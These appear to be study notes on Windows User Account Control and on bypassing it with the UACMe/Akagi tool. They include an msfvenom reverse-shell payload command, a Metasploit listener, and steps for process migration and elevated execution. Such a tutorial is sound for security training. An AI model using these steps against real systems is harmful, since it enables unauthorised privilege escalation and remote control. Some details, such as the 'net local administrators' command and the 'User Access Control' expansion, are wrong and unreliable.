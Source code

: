 
### What is UAC ?

UAC (User Access Control)

- User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorised changes from being made to the operating system.

- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.

- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.

- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

### Bypassing UAC

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system. 

- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.

- UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation. 

- There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.

### What is `UACMe` ?

- UACMe is an open source, robust privilege escalation tool developed by @hfireOx. It can be used to bypass Windows UAC by leveraging various techniques. 

	+ GitHub: https://github.com/hfiref0x/UACME

- The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.

- It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AuteElevate tool. 

- The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

### How to use `UACMe` ?

- __Prerequisites__
	+ The actual executable to perform the UAC bypass is called `Akagi`, it doesn't comes pre-compiled in the repository as it'll be flagged malicious, therefore we need to compile it ourselves.
	+ In order to elevate privileges by bypassing UAC, we will need access to a user that is a member of the local administrators group. Use command - `net local administrators` to check the list of local administrators.


__STEPS__
1) Gain initial access to a target system
2) If the `meterpreter` session is running in a 32 bit process, we can migrate to a 64 bit process such as `explorer.exe` with PID of 2448. Command is `migrate 2448`.
	+ The process ID of explorer can be found using the command `pgrep explorer`.
	+ Process migration is used for evasion, persistence, stealth and architecture matching.
	+ The original process that the attacker used to gain access to the system is different from the process they inject their code into.
3) We can check the privileges of the current user using `getprivs`
4) Generate a `msfvenom` `meterpreter` payload.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > payload.exe
```
5) Setup the multi handler to listen for connections. `use multi/handler`
6) Go back to the `meterpreter` session and navigate to the `C:\\` drive of the target. 
7) Create a Temp directory `mkdir Temp`
8) Upload the `payload.exe` and `Akagi64.exe` files into the Temp directory. 
9) `shell` into the system and execute `Akagi64.exe`.
```
.\Akagi64.exe <key_number> <path_to_payload>
```
10) After executing this command, `Akagi` will execute the payload with administrative privileges. And we should receive an elevated `meterpreter` session in our listener.